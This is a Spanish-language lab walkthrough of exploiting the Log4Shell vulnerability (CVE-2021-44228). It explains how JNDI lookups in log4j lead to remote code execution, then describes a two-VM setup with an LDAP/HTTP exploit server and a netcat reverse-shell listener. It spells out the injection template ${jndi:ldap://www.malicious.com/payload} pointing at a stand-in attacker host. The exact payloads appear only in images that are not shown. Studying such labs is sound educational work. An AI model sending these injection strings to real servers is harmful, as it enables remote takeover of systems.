Explotar vulnerabilidad de Log4j (CVE-2021-44228)
February 2022
Explicación teórica
En esta ocasión vamos a realizar una práctica de laboratorio sencilla donde explotaremos la en su día ya famosa vulnerabilidad Log4shell. Esta vulnerabilidad es del tipo RCE (Ejecución Remota de código), con una gran criticidad y fue en su momento un 0day en el popular paquete de logging log4j.
Algunos detalles más técnicos de la vulnerabilidad pueden leerse aquí
A partir de esta vulnerabilidad y su correspondiente parche, se fueron desencadenado nuevas vulnerabilidades. La siguiente imagen muestra la línea de acontecimientos:

¿Cuál es el problema que genera la vulnerabilidad?
El meollo de esta vulnerabilidad está contado bastante bien aquí y aquí.
A muy grandes rasgos, log4j permite registrar expresiones en los logs que contengan variables, de tal forma que al loggearse la información, log4j interpreta la expresión y sustituye las variables adecuadamente:
"${date:MM-dd-yyyy} Access granted"
Además, log4j permite anidar expresiones de búsquedas unas dentro de otras.
JNDI (Java Naming and Directory Interface)
Esta funcionalidad de log4j permite a una aplicación obtener datos de un servidor remoto utilizando protocolos tales como LDAP o RMI.
Todo esta teoría junta, puede usarse para explotar la vulnerabilidad de la siguiente forma:

Es decir, muy resumidas, ocurren las siguiente cosas:
-
Un atacante realiza una petición a la aplicación vulnerable y “cuela” una cadena JNDI para ser loggeada por log4j (en una cabecera HTTP por ejemplo) Esta cadena contiene una petición de búsqueda a un servidor LDAP malicioso.
-
Esta petición o cadena es, efectivamente, loggeada por log4j, que la interpreta y contacta con el servidor LDAP malicioso
-
El servidor LDAP malicioso responde con una clase Java maliciosa
-
El servidor víctima deserializa o descarga la clase Java malicoso y la ejecuta
Caso práctico
Para este escenario me he basado es una explicación genial de un buen blog en español y me parece importante darle su crédito.
Vamos a utilizar dos máquinas virtuales:
-
En la primera ejecutaremos una aplicación vulnerable a
log4shell. Se tratará de este contenedor Docker. Utilizaré un Lubuntu que tenía a mano. -
En la segunda ejecutaremos un exploit diseñado para esta vulnerabilidad, que levantará un servidor LDAP (para recibir la petición de la víctima) y otro HTTP (para servir el exploit).
También pondremos un netcat a escuchar, ya que el exploit establecerá una shell reversa.
Y desde este servidor será desde realizaremos la petición maliciosa a la víctima, mediante
curl, construida adecuadamente para explotar la vulnerabilidad descrita.Utilizaré una Debian que también tenía a mano.
En esencia, la cosa quedaría así:

Así pues, vayamos al lío. Ejecutamos la aplicación vulnerablen en el Lubuntu:

Ejecutamos el exploit en la Debian. Comprobamos como se inician el servidor LDAP (puerto 1389) y el HTTP (el 8888 le hemos indicado):

Y ponemos en esta misma máquina netcat a la escucha para recibir la reverse shell:

La petición CURL que vamos a realizar, será del tipo ${jndi:ldap://www.malicious.com/payload}, donde www.malicious.com es el servidor LDAP malicioso y payload será la orden a ejecutar para conseguir la reverse shell, codificada en base64.
El payload:

La petición CURL completa:

El servidor con la aplicación vulnerable recibiendo la petición:


Nuestros servidores maliciosos en la máquina DEbian recibiendo sus respectivas peticiones LDAP y HTTP sirviendo la clase Java maliciosa:

Y tras este intercambio de peticiones y respuestas, obtenemos nuestra shell inversa:
